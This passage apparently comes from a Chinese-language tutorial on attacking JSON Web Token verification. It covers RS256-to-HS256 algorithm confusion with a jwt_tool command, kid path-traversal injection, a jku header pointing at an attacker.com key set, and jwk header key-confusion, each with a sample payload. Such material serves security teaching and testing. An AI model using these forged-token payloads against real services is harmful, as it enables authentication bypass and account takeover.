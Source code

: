**前提条件：**

- JWT 原使用 `RS256`（或其他非对称算法）
- 服务端未强制验证 `alg`
- 攻击者能获取服务器公钥（通过 jwks.json 或配置泄露）

**攻击步骤：**

拿到公钥（PEM格式或 JWKS）将 JWT Header 改为：

```json
{ "alg": "HS256", "typ": "JWT" }
```

使用公钥作为对称密钥，重签 payload

**示例命令（用 jwt_tool）：**

```bash
jwt_tool token.jwt -X alg=HS256 -S "-----BEGIN PUBLIC KEY-----..."
```

#### `kid`（Key ID）注入攻击

**攻击原理：**

Header 中的 `kid` 字段用于标识使用哪个密钥验证 JWT。如果服务端使用 `kid` 值从文件或远程路径中加载密钥，而没有做安全校验，则攻击者可以控制该路径，**注入文件路径或 URL 实现任意密钥加载**。

**前提条件：**

- 服务端根据 `kid` 加载密钥文件或请求 URL
- 未对 `kid` 做路径白名单或过滤

**攻击方式：**

**A. 本地路径穿越：**

```json
{ "alg": "HS256", "kid": "../../../../../tmp/evilkey" }
```

服务端从该路径加载密钥并验证伪造 token。

**B. 指向远程 JWK 服务：**

```json
{ "alg": "RS256", "jku": "https://attacker.com/evil_jwks.json" }
```

如果服务器信任 jku 指定的外部地址，即可控制验证过程。

#### JWK 混淆注入（Key Confusion）

JWK是一种基于 JSON 格式的数据结构，用于表示各种类型的密钥（包括对称密钥、公钥、私钥），便于在 Web 应用中传输和交换。正常情况下，**`jwk` 字段一般不会直接出现在 JWT 的 Header 里**，而是作为密钥管理和分发机制的一部分存在。最常见的用法是**服务器发布的 JWK 集合（JWKS）**，它是一个包含多个 JWK 的 JSON 对象，通常通过 URL 公开供客户端获取。

攻击者在 Header 中添加一个 `jwk` 字段，构造一个伪造的公钥（甚至是对称密钥），欺骗服务端直接从该 header 中提取 JWK 进行验证，**从而自己控制签名密钥**。

**示例 Header：**

```json
{
  "alg": "RS256",
  "jwk": {
    "kty": "oct",
    "k": "YmFkX21pc2tleQ"  // base64("bad_miskey")
  }
}
```
